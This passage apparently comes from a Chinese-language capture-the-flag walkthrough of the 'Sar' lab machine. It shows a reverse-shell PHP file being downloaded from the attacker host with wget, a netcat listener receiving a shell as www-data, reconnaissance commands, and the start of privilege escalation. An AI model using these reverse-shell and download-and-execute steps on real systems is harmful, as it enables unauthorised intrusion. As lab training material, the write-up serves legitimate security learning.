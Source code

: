   ```
  
  Command => cat sh.php
  
  Command => wget http://192.168.2.2:8000/remotesh.txt -O sh.php
  
  Command => cat sh.php
  <?php
  exec("/bin/bash -c 'bash -i 
  
  Command => 
  ```

4. 成功获取反弹shell

- ```shell
  └─$ sudo nc -nvlp 1234
  [sudo] password for kali: 
  listening on [any] 1234 ...
  connect to [192.168.2.2] from (UNKNOWN) [192.168.2.10] 43600
  bash: cannot set terminal process group (832): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@sar:/var/www/html/sar2HTML$ whoami
  whoami
  www-data
  www-data@sar:/var/www/html/sar2HTML$ uname -a
  uname -a
  Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  www-data@sar:/var/www/html/sar2HTML$ pa 
  pa 
  pa: command not found
  www-data@sar:/var/www/html/sar2HTML$ ip a
  ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
      link/ether 00:0c:29:ae:5c:8f brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.10/24 brd 192.168.2.255 scope global dynamic noprefixroute ens33
         valid_lft 1402sec preferred_lft 1402sec
      inet6 fe80::bff5:5001:3b84:1ff1/64 scope link noprefixroute 
         valid_lft forever preferred_lft forever
  www-data@sar:/var/www/html/sar2HTML$ 
  ```

## 提权

- 获取用户`flag`

- ```shell
  www-data@sar:/var/www/html/sar2HTML$ pwd
  pwd
  /var/www/html/sar2HTML
  www-data@sar:/var/www/html/sar2HTML$ cd /ho     
  cd /home/
  www-data@sar:/home$ ls
  ls
  love
  www-data@sar:/home$ ls -lhai
  ls -lhai
  ```